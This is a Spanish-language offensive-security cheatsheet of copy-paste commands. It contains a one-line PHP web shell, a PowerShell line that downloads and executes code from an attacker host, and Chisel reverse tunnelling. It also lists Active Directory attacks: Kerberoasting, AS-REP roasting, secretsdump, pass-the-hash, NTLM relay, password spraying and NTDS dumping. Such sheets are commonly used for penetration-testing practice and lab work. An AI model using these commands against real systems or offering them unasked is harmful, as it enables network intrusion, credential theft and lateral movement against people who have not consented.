# Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Atacante
```
./chisel server --reverse -p ATACKER_PORT
```

Víctima
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```

# Enumeracion

## Directory Listing & subdomain discovering

wfuzz

```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.dominio.ext" url
```
Gobuster

```
gobuster vhost -u url -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

# Active Directory (AD)

Kerbrute

```
kerbrute -users userlist.txt -dc-ip IP -domain domain.local
```
ASREPRoasting

```
GetNPUsers.py -dc-ip IP domain.local/user -outputfile hashes.asreproast
```
Kerberoastin

```
GetUserSPNs.py DC-IP\user:password
```
DRSUAPI

```
secretsdump.py domain.local/USER:PASSWORD@IP
```
Pass the hash

```
evil-winrm -i IP -u user -H 'NTHash'
```
```
psexec.py domain.local/user@ip -hashes 'LMHASH:NTHASH'
```
```
wmiexec.py user@IP -hashes 'LMHASH:NTHASH'
```
SMB Relay

```
responder -I  NETINTERFACE rdw
```
NTLM Relay (SAM dumping without 'c' flag)

```
python3 ntlmrelayx.py -tf targets.txt -smb2support -c 'command' 
```
Domain Host Discovery

```
crackmapexec smb network/address
```
User & Password Spraying

```
crackmapexec smb network/address -u users -p passwords
```
NTDS dumping

```
crackmapexec smb network/address -u users -p passwords --ntds vss
```
Userenum with RPC (-N para Null Session)

```
rpcclient -U 'domain.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'
```
Descripcion usuarios with RPC

```
for rid in $(rpcclient -U 'dominio.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'| tr -d '[]'); do echo -e "\n[+] Para el RID $rid:\n";  rpcclient -U 'dominio.local\user%password' IP -c "queryuser $rid" | grep -E -i "user name|description" ;done
```
ldapdomaindump

```
service apache2 start
```
```
ldapdomaindump -u 'domain.local\user' -p 'password' targetIP
```
